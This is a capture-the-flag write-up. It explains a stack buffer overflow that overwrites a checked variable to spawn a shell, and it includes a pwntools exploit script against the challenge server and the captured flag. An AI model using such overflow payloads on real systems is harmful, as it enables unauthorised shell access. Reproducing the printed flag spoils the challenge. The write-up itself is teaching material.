








Running the program normally:



Taking a look at the program disassembly, we can see a comparison happening in `sym.vuln` between `rbp-0x8` and `0x1337c0de`.
If they are equal then a shell is spawned, if not then the program terminates normally.





Since we can see a call to fgets to grab input from stdin, we may have a buffer overflow here we can exploit to overwrite the stack and value at `rbp-0x8` along with it. We will use a DeBrujin pattern to determine the `rbp-0x8` offset where we will need to place `0x1337code`.



We start up our debugger, feed the DeBrujin sequence in as input, and set a breakpoint before the comparison happens:



After running the program and inspecting the stack and the value of `rbp-0x8`, we can see that we were able to overwrite it with the value `Aa8Aa9Ab`.



We will look for the value of `Aa8Aa9Ab` within our DeBrujin sequence. We determine that the offset value is 24.



Now all we need to do is send over our payload consisting of:
```
(padding of 24 characters) + 0x1337code
```

We can easily use pwntools to create the exploit:
```python
#!/usr/bin/python3
from pwn import *

p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

pad = 24 * b'A'
payload1 = pad
payload1 += p64(0x000000001337c0de)

p.sendlineafter('Am I dreaming?\n',payload1)
p.interactive()
```

Using this exploit, we are able to get a shell locally.

Running this remotely, we get a shell and can access the flag by running `cat flag.txt`:



Flag: `dfctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}`
